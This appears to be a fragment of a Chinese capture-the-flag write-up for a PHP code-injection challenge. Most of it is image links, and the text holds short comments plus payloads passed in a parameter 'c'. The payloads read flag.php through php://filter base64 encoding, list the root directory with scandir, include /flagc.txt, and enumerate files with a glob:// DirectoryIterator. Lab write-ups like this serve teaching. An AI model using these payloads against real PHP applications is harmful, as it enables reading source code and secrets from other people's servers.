








同样存在缓冲区劫持

绕过



读取flag

```
c=include("php://filter/convert.base64-encode/resource=flag.php");die();
```






还是不在这里

读取根目录

```
c=var_export(scandir("/"));die();
```



读取flagc.txt

```
c=include("/flagc.txt");die();
```




或者利用glob伪协议读取根目录内容

```
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');}exit(0);?>
```

